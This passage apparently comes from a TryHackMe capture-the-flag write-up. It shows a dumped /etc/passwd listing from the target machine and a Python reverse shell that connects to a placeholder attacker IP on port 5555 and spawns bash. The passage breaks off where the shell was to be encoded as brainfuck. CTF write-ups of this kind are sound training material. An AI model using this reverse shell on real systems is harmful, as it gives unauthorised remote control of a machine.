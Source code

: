 ```text
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
mindgames:x:1001:1001:,,,:/home/mindgames:/bin/bash
```
Since that works, we can start to hijack the machine...

## Exploitation
### Getting a foothold: Initial shell
#### Preparation
Constructing a reverse shell in python is straightforward (example taken from [here](https://blog.finxter.com/python-one-line-reverse-shell/)):
```python
import pty
import socket,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("IP.ADDR.OF.ATTACKER", 5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```
becomes
```brainfuck
```